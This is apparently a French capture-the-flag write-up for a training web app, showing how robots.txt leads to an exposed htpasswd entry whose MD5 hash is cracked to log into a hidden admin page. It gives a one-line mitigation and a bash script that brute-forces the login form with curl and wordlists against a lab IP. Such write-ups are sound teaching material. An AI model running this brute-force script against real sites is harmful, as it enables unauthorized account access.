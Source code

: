 # Explications
Dans la page "admin", qui est une page cachée, il y un formulaire de connexion :

```html
<form action="#" method="POST"> 
	Username: <input type="text" name ="username" style="width:100%;"recquired="" >
	Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off" recquired="" >
	&nbsp;	<p align="center"><input type="submit" value="Login" name ="Login"></p>
</form>
```
On observe aussi la présence d'un robots.txt comprenant :
<pre>User-agent: *
Disallow: /whatever
Disallow: /.hidden</pre>

<pre>Le fichier robots.txt, à placer la racine d'un site web, contient une liste de ressources du site qui ne sont pas censées être explorées par les moteurs de recherches.

Par convention, les robots consultent le fichier robots.txt avant d'explorer puis d'indexer un site Web. Lorsqu'un robot tente d'accéder à une page web, comme par exemple http://www.mon-domaine.fr/page.html, il tente d'accéder en premier lieu au fichier robots.txt situé à l'adresse http://www.mon-domaine.fr/robots.txt</pre>

En allant sur la page <code>/whatever</code>, on trouve un htpasswd, ou il y a marqué:

<pre>root:8621ffdbc5698829397d97767ac13db3</pre>

On en deduit donc qu'il sagit d'un login et d'un mot de passe (Pour la page "admin"). 

Une fois encore il s'agit de MD5 pour le mot de passe, donc on reverse et on trouve :

<pre><code>dragon</code></pre>

En tapant dans le page "admin", <code>root</code> et <code>dragon</code>, on trouve le flag.

# Comment l'éviter ?
Il faut proteger la page en question avec un .htaccess.

# Bonus
Le mot de passe et le user de cette page sont aussi trouvable en **Brute Force** avec un script shell un peu different du premier:
```bash
#!/bin/bash
url="http://192.168.1.175/admin/"
curl -s -X POST "$url" -d "username=qsdqsdq&password=qsdqsd&Login=Login" > trueone
while IFS='' read -r user; do
	echo "try user : $user"
	while IFS='' read -r line; do
		echo "try password: $line"
		curl -s "$url" -d "username=$user&password=$line&Login=Login"> testee
		DIFF=$(diff trueone testee)
		if [ "$DIFF" != "" ]
		then
			cat testee | grep "flag"
			echo "user is : $user\npassword is $line" >> result.txt
			rm testee
			break
		fi
		rm testee
	done < "dict.txt"
done < "users.txt"
```